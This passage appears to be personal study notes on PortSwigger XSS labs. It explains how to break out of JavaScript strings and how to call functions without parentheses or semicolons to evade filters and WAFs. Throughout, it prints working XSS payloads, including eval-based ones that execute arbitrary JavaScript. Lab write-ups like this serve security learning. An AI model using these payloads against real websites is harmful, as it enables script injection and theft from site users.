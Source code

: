 ```
- To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
- This lab was not that add and not far from the previous one
- Solution
```
\';alert(1)//
``` 

- Some websites make XSS more difficult by restricting which characters you are allowed to use. 
- This can be on the website level or by deploying a WAF that prevents your requests from ever reaching the website. 
- In these situations, you need to experiment with other ways of calling functions which bypass these security measures. 
- One way of doing this is to use the throw statement with an exception handler. 
- This enables you to pass arguments to a function without using parentheses. 
- The following code assigns the alert() function to the global exception handler and the throw statement passes the 1 to the exception handler (in this case alert). 
- The end result is that the alert() function is called with 1 as an argument.
```
onerror=alert;throw 1
```
- There are multiple ways of using this technique to call functions without parentheses.

# Call functions without parenthesis
- https://thespanner.co.uk/hacking-rooms
- https://portswigger.net/research/xss-without-parentheses-and-semi-colons
- From the above Articles I got the following:
- I encountered a site that was filtering parentheses and semi-colons, and I thought it must be possible to adapt this technique to execute a function without a semi-colon. 
- The first way is pretty straightforward: you can use curly braces to form a block statement in which you have your onerror assignment. 
- After the block statement you can use throw without a semi-colon (or new line):
```
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>
```
- If you've tried running the code you'll notice that Chrome prefixes the string sent to the exception handler with "Uncaught".
- In my previous blog post I showed how it was possible to use eval as the exception handler and evaluate strings. 
- To recap you can prefix your string with an = which then makes the 'Uncaught' string a variable and executes arbitrary JavaScript. For example:
```
<script>{onerror=eval}throw'=alert\x281337\x29'</script>
<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>
```
- You can use the fileName property to send a second argument on Firefox too:
```
<script>{onerror=prompt}throw{lineNumber:1,columnNumber:1,fileName:'second argument',message:'first argument'}</script>
```
- After I posted this stuff on Twitter @terjanq and @cgvwzq (Pepe Vila) followed up with some cool vectors. Here @terjanq removes all string literals:
```
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>
```
Pepe removed the need of the throw statement completely by using type errors to send a string to the exception handler. 
```
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```
# Lab 11: Reflected XSS in a JavaScript URL with some characters blocked EXpert level
- This lab reflects your input in a JavaScript URL, but all is not as it seems. 
- This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.
```